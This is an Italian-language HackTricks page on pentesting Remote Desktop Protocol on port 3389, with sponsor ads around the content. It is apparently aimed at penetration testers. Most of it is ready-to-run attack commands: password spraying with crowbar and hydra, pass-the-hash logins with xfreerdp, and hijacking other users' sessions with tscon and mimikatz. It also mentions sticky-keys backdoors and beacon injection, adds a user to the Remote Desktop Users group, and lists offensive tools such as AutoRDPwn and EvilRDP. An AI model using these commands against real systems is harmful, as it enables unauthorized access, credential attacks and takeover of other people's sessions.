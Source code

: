 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Setup disponibile immediatamente per la valutazione delle vulnerabilità e il penetration testing**. Esegui un pentest completo da qualsiasi luogo con oltre 20 strumenti e funzionalità che vanno dalla ricognizione alla reportistica. Non sostituiamo i pentester - sviluppiamo strumenti personalizzati, moduli di rilevamento e sfruttamento per restituire loro del tempo per approfondire, aprire shell e divertirsi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Informazioni di base

Sviluppato da Microsoft, il **Remote Desktop Protocol** (**RDP**) è progettato per abilitare una connessione con interfaccia grafica tra computer su una rete. Per stabilire tale connessione, il software client **RDP** è utilizzato dall'utente, e contemporaneamente, il computer remoto deve eseguire il software server **RDP**. Questa configurazione consente il controllo e l'accesso senza soluzione di continuità all'ambiente desktop di un computer distante, portando essenzialmente la sua interfaccia sul dispositivo locale dell'utente.

**Porta predefinita:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumerazione

### Automatica

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Controlla la crittografia disponibile e la vulnerabilità DoS (senza causare DoS al servizio) e ottiene informazioni NTLM di Windows (versioni).

### [Forza bruta](../generic-methodologies-and-resources/brute-force.md#rdp)

**Fai attenzione, potresti bloccare gli account**

### **Spray di password**

**Fai attenzione, potresti bloccare gli account**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Connettersi con credenziali/hash conosciuti
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Controlla le credenziali conosciute contro i servizi RDP

rdp\_check.py di impacket ti consente di verificare se alcune credenziali sono valide per un servizio RDP:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Impostazione disponibile istantaneamente per la valutazione delle vulnerabilità e il pentesting**. Esegui un pentest completo da qualsiasi luogo con oltre 20 strumenti e funzionalità che vanno dalla ricognizione alla reportistica. Non sostituiamo i pentester - sviluppiamo strumenti personalizzati, moduli di rilevamento e sfruttamento per restituire loro del tempo per approfondire, aprire shell e divertirsi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Attacchi**

### Furto di sessione

Con **permessi SYSTEM** puoi accedere a qualsiasi **sessione RDP aperta da qualsiasi utente** senza bisogno di conoscere la password del proprietario.

**Ottieni sessioni aperte:**
```
query user
```
**Accesso alla sessione selezionata**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Ora sarai all'interno della sessione RDP selezionata e dovrai impersonare un utente utilizzando solo strumenti e funzionalità di Windows.

**Importante**: Quando accedi a sessioni RDP attive, disconnetterai l'utente che le stava utilizzando.

Potresti ottenere le password dal processo estraendole, ma questo metodo è molto più veloce e ti consente di interagire con i desktop virtuali dell'utente (password in notepad senza essere salvate su disco, altre sessioni RDP aperte su altre macchine...)

#### **Mimikatz**

Puoi anche utilizzare mimikatz per fare questo:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Combinando questa tecnica con **stickykeys** o **utilman potrai accedere a un CMD amministrativo e a qualsiasi sessione RDP in qualsiasi momento**

Puoi cercare RDP che sono stati backdoorati con una di queste tecniche già con: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

Se qualcuno di un dominio diverso o con **privilegi migliori accede via RDP** al PC dove **sei un Admin**, puoi **iniettare** il tuo beacon nel suo **processo di sessione RDP** e agire come lui:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Aggiungere utente al gruppo RDP
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** è un framework di post-exploitation creato in Powershell, progettato principalmente per automatizzare l'attacco **Shadow** sui computer Microsoft Windows. Questa vulnerabilità (elencata come una funzionalità da Microsoft) consente a un attaccante remoto di **visualizzare il desktop della sua vittima senza il suo consenso**, e persino controllarlo su richiesta, utilizzando strumenti nativi del sistema operativo stesso.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Controlla il mouse e la tastiera in modo automatizzato dalla riga di comando
* Controlla il clipboard in modo automatizzato dalla riga di comando
* Crea un proxy SOCKS dal client che canalizza la comunicazione di rete verso il target tramite RDP
* Esegui comandi SHELL e PowerShell arbitrari sul target senza caricare file
* Carica e scarica file da/al target anche quando i trasferimenti di file sono disabilitati sul target

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Impostazione disponibile istantaneamente per la valutazione delle vulnerabilità e il penetration testing**. Esegui un pentest completo da qualsiasi luogo con oltre 20 strumenti e funzionalità che vanno dalla ricognizione alla reportistica. Non sostituiamo i pentester - sviluppiamo strumenti personalizzati, moduli di rilevamento e sfruttamento per restituire loro del tempo per approfondire, aprire shell e divertirsi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Impara e pratica l'Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica l'Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
